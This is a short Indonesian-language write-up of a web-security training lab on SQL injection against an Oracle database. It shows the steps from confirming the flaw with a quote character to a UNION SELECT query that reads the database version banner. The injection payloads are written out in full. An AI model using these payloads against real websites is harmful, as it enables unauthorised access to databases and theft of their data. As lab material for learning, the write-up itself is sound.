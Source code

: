 ##  Write-up: SQL injection attack, querying the database type and version on Oracle

### Langkah-langkah:

1. **Buka lab** → intercept request pakai **Burp**.
   Contoh request:

   ```
   GET /filter?category=Corporate HTTP/2
   ```
   <img width="927" height="67" alt="image" src="https://github.com/user-attachments/assets/6136623d-bb73-427f-af5d-8cfdedddbe9f" />


2. **Uji injection** dengan menambahkan tanda `'`:

   ```
   /filter?category=Corporate'
   ```
   <img width="267" height="82" alt="image" src="https://github.com/user-attachments/assets/4ce723b1-acda-456b-a71e-c6e92a1961b8" />

   → Hasilnya muncul **500 Internal Server Error**, artinya vulnerable.

3. **Cari jumlah kolom** dengan `ORDER BY`:

   ```
   /filter?category=Corporate' ORDER BY 1--
   /filter?category=Corporate' ORDER BY 2--
   ```

   → Saat `ORDER BY 2` berhasil, tapi `ORDER BY 3` error → jumlah kolom = **2**.

4. **Uji UNION SELECT** untuk lihat output di halaman:

   ```
   /filter?category=Corporate' UNION SELECT 'aaa','bbb' FROM dual--
   ```

   → Teks `aaa` atau `bbb` muncul di halaman → injection berhasil.

5. **Ambil versi database Oracle**:

   ```
   /filter?category=Corporate' UNION SELECT banner,null FROM v$version--
   ```

   → Halaman menampilkan:

   ```
   Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production ...
   ```

   → Sesuai hint lab.

 **Lab Solved**
